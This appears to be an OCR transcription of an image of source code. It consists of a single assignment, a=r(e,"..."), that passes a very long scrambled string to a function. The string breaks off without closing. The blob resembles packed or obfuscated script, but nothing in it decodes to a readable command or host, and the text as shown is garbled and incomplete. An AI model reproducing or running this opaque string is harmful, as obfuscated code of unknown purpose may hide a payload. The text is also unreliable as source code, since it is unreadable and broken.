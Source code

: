 a=r(e,"c8WJQk,=5fXs&eEiXkfEEeJ&5&EsWf=5&=8QseWE=H&=8W,esQs,W,f=E,Q8f,eEJJ58k,e8iJQWf8eEfiiXQffQE,i&Q-5i8s,=ssd=85XEEXQX5EesJfQWe88==k=ie:W8,ise8WkeX&i=5W&sWEJ8&,8s,QsQiQQskXXe&Q8e,8sAiiQ&iskfskisQ=Xffi8f5WEksQW=k8X(EiJ&EfQeXkE=JkQTeEWQWe&i8skis=i&k{XQE&iQ5sE8J,5WeW&E,fs888QiXki8Qk5efkJf5JX8XXieQ=f,EkJWeiQJf,ee&;8skeX&isQ5EXkEsJ_TQ&=8EfWs=seQ8&,XQEXWEsJX5fQsfsE5WE5W&XsJVfk*fiEEJse5Q5f5EWQk5sEWs=YQkJXWi8QI,iQe,e=eeE8X,fs5-kXf8W=kfE8Jk&X&E&QJ=XEWW&55&,WW=WXi}fEkJX5We8W-ekWe=i&8p&kes8ffEiJ,5keQW8&=JE=&XfWs=e&&f&EiJf55e=WQ&,JX5QeEsW1&QifEEeJXEJkQf,EeJ5fJeXys=f&,WWi8ku5EeeW&=f8i5WesWQk&&&Wn,QsZ_WQsf5iXJEfJE8se9fkf&,i,QkfQE85EiEQ&f,E5WE=k&ieW=wsEsik,X&CJisfEE5E5=E&sWfWQ&=AXk,,DeXQJX,=kEa8W,8sLiesE8f,5sJ#k8skiXEQ=5&E8Wi=i5=IXk&=k&&J&=se,2Q5e&fxk,,fQ8,iJQsfGeiWE=s8ff8E,W,5W=iif,W&kfQiWJ850&i8&EfW,,,&,iQ=W&Qd&Q&f8i&J8fyEi8Qri,sX&isQXf=QQXQ_,k8=%EQJe=Xe5W=,ss,8,E&k,5fe5W==QJi=EEJ8s=&&sL&,XXEi58e,8s:(fQiXQikQ8fQeEWX=s&f8&,Xse!,8s,es5v=k,p5k&XQDQEWJe=i&E8e,X#==seQ8J,E&#_87&5=iJQ=fJ=Kekvek&Xsi5f&Ok,5kEENkkfEEEWE5k5=JWkX&Ww&,5X,PWkW5iEfQ58Q,Ws8N%Qifii5J&5seXW=&eJg5feW8J=Q&5Re,=sE5iE=W&=s&X8=sfWe5W&i8sQQXeK5k,J>f&&e8&,ss5,X&iWQ8EXE!EkRkXikQ=5EeeWX=55J8s,i=mqa,8keEeisfXEkWff}&sW=ieQEfXEfJ55kJe=Q=k&&8W,8sGief=3fk55iiJQJfkEs&=WW,QsJ*WQiik,&XXe=kfXsiXi8,&e5W&=5kkXEiWQ8fxeeXWiQJk5=EkJk5W&58&,QQkfsEWJ85T&e,EEfJ55JXf8,=QQ5X=EkJQ5Je*=JE=JV5Q5kWJ=5&Q&8JQX528QbfsEeWE8W,iXiiEQeEf,WX8E%Qf=&ekJJ5fekik,kXJR8,WJi5&esWX=f&58=,,sk2k,iXWi8QN5ek5f=i&JQfkEQWk5J&=88J,=X&fWm,&seBfk,XkisQ=f5EJJW=Ee(W<JQX,e8WM,is&,Wef8=QQ&,85,=kEskW5fQE5JQJ5&XWk=kse*5k,,8i8kQXWE&Jf=&eEWW,ss58W,8ses&esQ,=5&=8,,JWE,eeW}X,ssXiskffeE=*&k(fiiPJi5ieEWE=Ee8W8,Esib5kfX,iXQ,kfXXi,QkfQk,X=EJe8kW,EseG&kfii=,sQn8,Jsk QisfWeXJsJ=eX8e,f=J3Qk,sJ4JiE,iE5JXfW5fiE=f&sxE,5s,sWQWfJEWJefWeXWi=e=f:E,,s5skkeXWi=iW8f=Qs,7kkQX8QkXE88g=5XiXQ5fWEQWX=8&sX=ifQQfJEWXkifJi5J,E&k1skXXfi,sXbJ,,fiiXQJf=Es&/8fkeX&isQ5EekiX,ikQWfpfs8J5=5fsy<,Qef&EsJ5ekQfXWE8J&5E&isJZEk1fiEEJse=kWX9E=Jf5,sQW&=5siqi,sQ8f5eEWe=&&f,ee,Jfk5&&8e=8sifQE8J#=i&E8e,&XsQfkXsJi=Q,fkEW=&EEJe=&e&JE5f&,WW=XQsf5E=J,5keQWJ5,n888,QXEieQ&ffQjXWieQQW=5?&Q8J,WXikss58&kX5=wWkhf=EfJ,8=,isQ>JkWfiJfXsiXW=Xfi=Q,fIeEs5WQkkXQiJQMh8k&Xsi,Q5kEXWi8=k&fWW,8s&TEQi,5i0Jik,&QJ55Q&Qifk8&f^Jk,5G5kEeWW=8&L/esJWQ=J&8ikk,XJEEJ8X8EEJQ55e3WsQisi}fk5X5A;WWXQiJQ18,,fsJ(Wk88QkaX+ifQ8W&5Q&f85,=sQk,&X8i,&s5E&Q&XEif&eWJ,XsfV5kkiskEs=2*JEfXEXeSQJ,es&+sk5+8,8&W8WkWk&iiQW5Ef5JJ=ieJ8iWJssji8-5,ieQ&fJE=WiJfe=WfW,ff+e,,XkNSkWfJfi&,J